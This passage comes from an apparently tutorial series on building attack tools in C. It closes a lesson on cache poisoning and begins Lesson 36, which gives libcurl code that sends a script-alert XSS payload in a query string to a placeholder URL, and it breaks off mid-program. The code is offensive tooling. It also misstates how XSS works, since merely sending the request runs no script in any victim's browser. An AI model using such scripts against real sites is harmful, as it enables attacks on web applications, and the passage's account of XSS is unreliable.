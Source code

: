 #### Conclusion:

Building a Cache Poisoning tool in C helps demonstrate the potential risks associated with incorrectly configured caches and caching mechanisms. By understanding how Cache Poisoning attacks work, developers and security professionals can implement proper security measures to prevent and mitigate such vulnerabilities.

This concludes our thirty-fifth lesson on building a Cache Poisoning tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 36: Building a Cross-Site Scripting (XSS) Injection Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to perform Cross-Site Scripting (XSS) attacks. XSS vulnerabilities occur when an attacker injects malicious scripts into web applications, which are then executed in the context of other users' browsers, potentially leading to data theft, session hijacking, or website defacement. Our tool will manipulate input parameters to inject malicious scripts and demonstrate the impact of XSS vulnerabilities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curl/curl.h>

#define TARGET_URL "http://example.com/vulnerable_endpoint"

// Function to perform a XSS Injection attack
void perform_injection() {
    CURL *curl;
    CURLcode res;

    // Initialize libcurl
    curl = curl_easy_init();
    if (!curl) {
        fprintf(stderr, "Error initializing libcurl\n");
        exit(EXIT_FAILURE);
    }

    // Set the target URL for the XSS Injection attack
    curl_easy_setopt(curl, CURLOPT_URL, TARGET_URL);

    // Craft malicious payload for XSS injection
    char payload[1000];
    snprintf(payload, sizeof(payload), "%s?input=<script>alert('XSS Injection')</script>", TARGET_URL);
    curl_easy_setopt(curl, CURLOPT_URL, payload);

    // Perform the XSS Injection attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing XSS Injection attack: %s\n", curl_easy_strerror(res));
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_easy_cleanup(curl);
}

int main() {
    printf("Starting XSS Injection attack...\n");

    // Perform the XSS Injection attack
    perform_injection();
```